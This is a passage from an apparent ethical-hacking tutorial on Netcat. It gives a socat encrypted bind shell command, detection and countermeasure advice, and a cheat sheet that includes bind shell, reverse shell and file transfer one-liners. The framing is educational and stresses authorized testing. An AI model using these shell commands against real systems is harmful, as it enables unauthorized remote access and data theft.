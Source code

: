 - **Socat**: More powerful with more protocol support
  ```bash
  # Create an encrypted bind shell
  socat OPENSSL-LISTEN:4444,cert=cert.pem,key=key.pem,verify=0,fork EXEC:/bin/bash
  ```

## Detection and Prevention
Understanding how Netcat usage is detected:

- Network monitoring tools detect listening ports and unusual connections
- Host-based IDS can detect Netcat processes and command line arguments
- File integrity monitoring may detect Netcat binaries

Countermeasures:
- Regular port scanning of your own network
- Monitor for unusual outbound connections
- Use application whitelisting
- Implement proper firewall rules

## Best Practices for Ethical Hacking
- Always obtain proper authorization before testing
- Document all activities performed during testing
- Maintain confidentiality of findings
- Clean up after testing (remove backdoors, etc.)
- Report all findings to the appropriate stakeholders

## Command Cheat Sheet

| Task | Command |
|------|---------|
| Basic TCP connection | `nc -v host port` |
| Listen for connections | `nc -l -p port` |
| Port scan | `nc -zv host port-range` |
| Banner grabbing | `nc -v host port` |
| File transfer (receiver) | `nc -l -p port > file` |
| File transfer (sender) | `nc host port < file` |
| Bind shell | `nc -l -p port -e /bin/bash` |
| Reverse shell | `nc host port -e /bin/bash` |
| Chat server | `nc -l -p port` |
| UDP scan | `nc -u -zv host port-range` |
| Proxy/relay | `nc -l -p port1 | nc host port2` |

## Conclusion
Netcat is an essential tool for ethical hackers, providing versatile functionality for network exploration, exploitation, and post-exploitation activities. Understanding its capabilities and limitations is crucial for effective penetration testing.

Remember that the techniques described in this guide should only be used in legal, authorized security testing scenarios. Unauthorized use of these techniques against systems you don't own or have permission to test is illegal and unethical.
